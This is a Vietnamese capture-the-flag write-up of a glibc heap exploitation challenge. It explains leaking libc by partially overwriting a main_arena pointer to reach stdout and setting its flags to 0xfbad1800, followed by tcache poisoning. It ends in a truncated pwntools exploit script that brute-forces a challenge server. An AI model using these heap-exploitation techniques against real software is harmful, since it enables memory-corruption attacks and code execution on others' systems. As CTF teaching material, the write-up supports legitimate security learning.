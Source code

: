 chi tiết xem ở đây : https://reinject.top/posts/ctf-pwn/leaklibc/overwrite__io_2_1_stdout_to_leak_libc/

- kịch bản ở đây sẽ như sau 

> đầu tiên ta sẽ malloc 2 khối 1 khối để free() vào usorted-bin và 1 khối để ngăn khối đầu tiên gộp với top_chunk
> tiếp theo ta sẽ phân bổ thêm 2 khối , 2 khối này sẽ được phân bổ từ unsorted-bin nên nó sẽ chứa địa chỉ trỏ đến main_arena

> như đã biết thì 12 bit cuối cùng sẽ luôn cố định , ta có thể thay đổi main_arena thành stdout với tỉ lệ 1/16 (0 -> 0xf)

địa chỉ main arena : 

```0x7f76debc0be0```

địa chỉ stdout : 


> vậy nếu ta có thể thay đổi stdout , ta sẽ change bit cờ thành 0xfbad1800  và thay đổi các bit thấp hơn của write_base thành 0x00.

- có libc xong thì ta thực hiẹn ```tcache_poisioning``` giống bài trước 

- ta sẽ thấy ở đây ta đã overwrite thành công , bây giờ nó quay lại menu và menu sử dụng puts nên ta có thể leak libc


script :
```
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process()
#p = remote('172.31.3.2', 4240)
def alloc(index, size):
    p.sendlineafter(b'> ',b'1')
    p.sendlineafter(b'index > ',str(index))
    p.sendlineafter(b'size > ',str(size))

def free(index):
    p.sendlineafter(b'> ',b'2')
    p.sendlineafter(b"index > ", str(index))

def edit(index, txt):
    p.sendlineafter(b'> ',b'3')
    p.sendlineafter(b"index > ", str(index))
    p.sendafter(b"content > ",txt)

def copy(index1, index2):
    p.sendlineafter(b'> ',b'4')
    p.sendlineafter(b'index1 > ', str(index1))
    p.sendlineafter(b'inde2 > ', str(index2))

while True:
    p = remote('172.31.3.2',4240)
    alloc(1, 0x420)  # unsorted bin
```